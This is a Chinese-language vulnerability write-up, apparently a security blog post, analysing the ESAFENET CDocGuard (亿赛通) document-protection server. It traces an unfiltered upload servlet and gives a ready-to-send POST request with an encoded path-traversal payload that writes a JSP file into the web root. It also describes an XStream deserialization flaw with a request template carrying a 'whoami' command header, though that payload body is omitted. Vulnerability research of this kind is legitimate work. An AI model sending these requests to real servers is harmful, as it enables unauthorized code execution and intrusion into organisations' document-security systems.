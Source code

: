 
亿赛通漏洞浅析

- - -

# 亿赛通漏洞浅析

## 文件上传

某次拿到亿赛通安装包进行安装后，在 web.xml 文件中搜索 upload 相关的 servlet  
[![](assets/1698914716-a7a426594d8ef6235c616c54a5ea63b8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231101195125-fc28d9e6-78ac-1.png)  
发现其中 UploadFileFromClientServiceForClient 存在文件上传漏洞，跟进源代码进行分析  
很明显存在文件写入操作  
[![](assets/1698914716-2975701fbe98eb2f025c312c384079f7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231101195428-69671bee-78ad-1.png)  
关注文件名是否可控，是否对文件后缀有限制  
向上查看代码，发现 fileName 的获取步骤是：遍历 var12 数组，当其以 fileName 开头时，取其=号后面的值，相当于构造如下：fileName=1.jsp，即可使得 fileName 为 1.jsp  
[![](assets/1698914716-04a935edb669a624ee9f65f15644a6b4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231101195921-17feea7e-78ae-1.png)  
接着向上查看代码，可知 var12 这个数组由 value\_decode 字符串对&字符进行切片得到  
[![](assets/1698914716-eb7a8f6ca0f04886b9e5fc49f8f5df6a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231101200658-2864aab0-78af-1.png)  
而 value\_decode 对&字符进行切片前，经过了 CDGUtil.decode 与 substring  
req.getQueryString() 就是获取查询字符串，例如：客户端发送？a=b&c=d&e=f，通过 request.getQueryString() 得到的就是 a=b&c=d&e=f  
[![](assets/1698914716-7b293e8b9efe62f5e01af31cd2e7cc84.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231101200737-3fbd6c88-78af-1.png)  
从上述分析可以得知，并没有对 fileName 有什么过滤操作，fileName 的值从 value\_decode 取得，构造 payload：  
?a=ODJNOLIDLOLPEJHCOIFJJDIJOLLFJLDE，ODJNOLIDLOLPEJHCOIFJJDIJOLLFJLDE 为 fileName=1.jsp&1 经过 CDGUtil.encode 加密  
[![](assets/1698914716-bab64733f279e39a110365a32077e2d2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231101202428-99f546ce-78b1-1.png)  
发送后，发现其文件不是写在 web 目录下，而是在 C:\\fileDB\\uploaded\\store 目录  
[![](assets/1698914716-a1d8dcf45af0198e22120f5d828a263f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231101202217-4bca5e1c-78b1-1.png)  
因为安装包安装的路径都是一样的，所以我们可以通过目录穿越将其上传到 web 目录下：../../../Program Files (x86)/ESAFENET/CDocGuard Server/tomcat64/webapps/ROOT/1.jsp  
利用如下 payload：?a=AFMALANMJCEOENIBDJMKFHBANGEPKHNOFJBMIFJPFNKFOKHJNMLCOIDDJGNEIPOLOKGAFAFJHDEJPHEPLFJHDGPBNELNFIICGFNGEOEFBKCDDCGJEPIKFHJFAOOHJEPNNCLFHDAFDNCGBAEELJFFHABJPDPIEEMIBOECDMDLEPBJCGBIFBGJGJBMCM  
[![](assets/1698914716-ea231e91e7595845ee8b21789e067445.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231101202721-00fc584e-78b2-1.png)  
[![](assets/1698914716-6aa03a5ef0a47f5b893689c6e6b71496.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231101202730-064eac66-78b2-1.png)

```bash
POST /CDGServer3/UploadFileFromClientServiceForClient?a=AFMALANMJCEOENIBDJMKFHBANGEPKHNOFJBMIFJPFNKFOKHJNMLCOIDDJGNEIPOLOKGAFAFJHDEJPHEPLFJHDGPBNELNFIICGFNGEOEFBKCDDCGJEPIKFHJFAOOHJEPNNCLFHDAFDNCGBAEELJFFHABJPDPIEEMIBOECDMDLEPBJCGBIFBGJGJBMCM HTTP/1.1
Host: 192.168.37.130:8443
Connection: close
Content-Length: 26

<%out.println("123213");%>
```

## xstream 反序列化

亿赛通中使用到了 xstream 组件，而 xstream 1.4.9 是存在反序列化漏洞的  
[![](assets/1698914716-4556cc3ece6e8cddc190f32fb0ad0c22.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231101203127-93ca3510-78b2-1.png)  
GetValidateLoginUserService 中调用了 xstream 组件，fromXML 会反序列化 xml 格式内容，并且这里未对输入做校验  
[![](assets/1698914716-6826376935384f87b4c0150b7dbe11b7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231101203536-28531a9e-78b3-1.png)  
这里传入的 xml 内容也是会做解密处理的，所以我们传入的内容也要先用 CDGUtil.encode 进行加密  
[![](assets/1698914716-b875819f19c65b1e8ad46961206ab1bf.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231101203617-4074f6a6-78b3-1.png)  
[![](assets/1698914716-463cb7bfb6ce3fdecb0bd9bdf3220636.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231101203650-5491e6da-78b3-1.png)  
[![](assets/1698914716-0929d98784725aa8692d086f6c7effa5.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20231102144737-b5b5f7e2-794b-1.jpg)

```bash
POST /CDGServer3/xxxxxxxxxxxx HTTP/1.1
Host: 192.168.37.130:8443
Connection: close
ttt: whoami
Content-Length: 29724

poc
```
